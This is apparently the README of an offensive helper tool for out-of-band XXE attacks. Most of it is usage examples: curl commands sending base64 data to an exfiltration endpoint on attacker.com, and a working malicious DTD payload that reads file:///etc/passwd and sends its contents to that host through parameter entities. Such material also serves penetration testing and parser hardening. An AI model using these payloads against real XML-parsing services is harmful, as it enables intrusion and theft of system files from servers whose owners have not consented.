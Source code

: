 # XXE-OOB-Helper
Useful helper for out-of-bound XXE attacks

## Example
Starting OOB Helper:

```bash
$ oob.py -d http://attacker.com:32032 -p 32032
```

Simulating payload exfiltration

```bash
$ # Both are decoded to "Hello" in window where oob.py is launched
$ curl 'http://attacker.com:32032/exfil/query?decoder=b64u&data=SGVsbG8%3D'
$ curl -XPOST -d "SGVsbG8=" 'http://attacker.com:32032/exfil/post?decoder=b64'
```

Getting payload to exfiltrate file:///etc/passwd with DTD
```bash
$ curl 'http://attacker.com:32032/payload?entity=file:///etc/passwd'
<?xml version="1.0" ?>
<!DOCTYPE r [
   <!ELEMENT r ANY >
   <!ENTITY % sp SYSTEM "http://attacker.com:32032/dtd?entity=file:///etc/passwd">
   %sp;
   %param1;
   %exfil;
]>
$ curl 'http://attacker.com:32032/dtd?entity=file:///etc/passwd'
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com:32032/exfil/query?data=%data;'>">
```

## Features
- Generate simple XXE / DTD payloads from templates.
- Grep payload from GET / POST requests.
- Decode payload in popular encodings, like URL encoding or Base64
